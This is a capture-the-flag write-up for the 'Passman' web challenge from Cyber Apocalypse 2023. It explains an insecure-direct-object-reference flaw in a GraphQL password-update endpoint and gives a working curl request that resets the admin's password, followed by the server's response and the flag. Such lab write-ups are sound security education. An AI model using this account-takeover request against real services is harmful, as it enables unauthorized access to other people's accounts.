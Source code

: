 # Cyber Apocalypse 2023

## Passman

> Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?
>
>  Author: N/A
>
> [`web_passman.zip`](web_passman.zip)

Tags: _web_

## Solution
While inspecting the source code we can find a weak graphql endpoint that allows to change user data for any user. The endpoint is only available for authenticated users but creating a new user is easily done.

![createuser](image001.png)

After this we can take the session id of the newly created user to send a update call to the `graphql` endpoint.

```bash
$ curl -X POST -H "Content-Type:application/json" -d '{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"test"}}' --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5NTc0ODk0fQ.mOgumzswX-rEm9_222nfGZ__ur29vovSQT3jrYLj_us" http://104.248.169.117:30
522/graphql
{"data":{"UpdatePassword":{"message":"Password updated successfully!","token":null}}}
```

Now admins password is set to `test` we can login as `admin` and retrieve the flag.
![flag](image002.png)

Flag `HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`
